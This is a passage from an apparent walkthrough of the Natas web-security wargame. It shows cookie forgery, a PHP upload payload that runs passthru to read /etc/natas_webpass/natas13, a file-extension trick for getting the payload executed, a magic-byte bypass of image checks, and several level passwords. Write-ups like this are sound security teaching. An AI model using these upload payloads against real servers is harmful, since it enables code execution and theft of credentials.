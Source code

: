 This gives our desired cookie, `EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`. We set this
by running the following JavaScript in the browser console:

```javascript
document.cookie = "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK";
```

Clicking on the `set color` button returns the password:

`EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`

## 13

In this level, a file is uploaded to the server, via an HTML form. Looking at
the source code, we see that the form has a few elements, which are initially
hidden:

```php
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

When writing the file to disk, the server code generates a random name for the
file. However, the extension given to the file is pulled from the hidden
`filename` input box in the form. If we set the extension of the file in the
form, that extension will be used to store our file on disk.

Different extensions cause the server to handle the file in different ways. A
`.jpg` extension will cause the server to serve the file as a static image, but
a `.php` extension will cause it to execute it as a PHP file.

We can therefore get the password by changing the text of the `filename` input
to `file.php` uploading the file:

```php
<?php
passthru('cat /etc/natas_webpass/natas13');
```

Submitting the form
displays a link to the file. When we click on the link, the PHP code is executed
and the password is displayed.

> jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## 14

This level is similar to `13`, with the difference that the server side code now
runs the function `exif_imagetype` on the uploaded file to check if it's really
an image.

`exif_imagetype` works by reading the first few bytes from a file to check if
they match what the first few bytes of a `jpeg`, `gif`, `png` etc file are meant
to be. We can therefore trick the function by supplying a file which starts
with the first few bytes of an image format. For example, `jpeg` files start
with the number `0xFFD8FFE0`. We can create a `php` script with the correct
starting bytes with the following `python` code:
